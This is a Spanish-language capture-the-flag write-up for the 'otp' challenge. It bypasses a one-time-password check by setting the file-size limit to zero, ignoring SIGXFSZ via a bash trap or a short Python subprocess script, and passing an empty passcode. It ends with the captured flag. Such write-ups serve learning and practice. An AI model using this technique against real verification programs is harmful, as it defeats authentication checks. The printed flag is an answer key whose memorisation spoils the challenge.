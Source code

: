 # otp

<img width="134" height="167" alt="otp" src="https://github.com/user-attachments/assets/640eab5b-5e36-4ea0-9836-38f7903a2a3b" />

De leer https://linuxcommand.org/lc3_man_pages/ulimith.html concluimos que si hacemos `ulimit -f 0` el tamaño máximo (en bloques de 512 bytes) de cualquier archivo que un proceso pueda crear mediante escritura es ahora 0. 

Esto provoca que no se pueda crear el archivo temporal y al intentar leer del archivo inexistente no se actualiza passcode, entonces `passcode=0`. Si pasamos de parametro una cadena vacia entonces `strtoul` la convierte en `0` y pasamos la verificacion.

Sin embargo cuando el tamaño de un archivo excede lo establecido por `ulimit` se lanza una excepcion `SIGXFSZ`.

Usando `trap 'commands' signal` en `bash` se puede personalizar el comportamiento de la terminal para una señal en especifico. Ignorando SIGXFSZ conseguimos la flag:

<img width="366" height="152" alt="2025-08-05-140945_1327x152_scrot" src="https://github.com/user-attachments/assets/9e448180-c058-4a4c-8140-dcce393c80b1" />

Otra forma es usando un subproceso. Por ejemplo con python:
``` py
import signal
import resource
import subprocess
import os

# ulimit -f 0
resource.setrlimit(resource.RLIMIT_FSIZE, (0, 0))

# preexec_fd sets the signal handler for the subprocess
subp = subprocess.Popen(
            ["/home/otp/otp", ""],
            preexec_fn=lambda: signal.signal(signal.SIGXFSZ, signal.SIG_IGN))
subp.wait()
```

`f1le_0peration_r3turn_value_matters`
